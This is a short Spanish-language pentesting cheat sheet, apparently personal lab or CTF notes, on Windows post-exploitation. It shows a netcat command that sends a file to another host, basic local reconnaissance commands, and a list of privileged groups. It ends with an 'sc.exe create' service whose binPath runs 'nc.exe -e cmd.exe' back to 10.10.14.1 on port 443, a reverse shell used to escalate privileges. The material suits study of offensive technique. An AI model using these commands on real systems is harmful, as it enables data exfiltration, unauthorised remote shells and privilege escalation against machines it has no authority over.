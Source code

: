 ## Enviar archivos nc64.exe

Para enviar archivos desde windows cuando no te deja usar SMB

```
nc.exe 192.168.1.5 1234 < archivo_a_enviar.txt
```

Ya sabes del otro lado solo lo revibes...

## Recon basico windows


Ahora para escalar vamos a hacer reconocimiento basico..

```
systeminfo
net user # PS Get-LocalUser
net localgroup # PS Get-LocalGroup
netstat -ano
whoami /priv
whoami /all #miembro de que grupos
```

Obtener informacion de un grupo o un usuario

```
net user svc-printer
net localgroup 
```
## Grupos con privilegios

Algunos de los grupos que tienen privilegios son:

```
Server Operators

Administrators
```
> https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators

## Servicios de Windows

Para ver los servicios usa:

```
services # PS Get-Service

```
Para crear una servicio en windows

```
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.1 443"
```
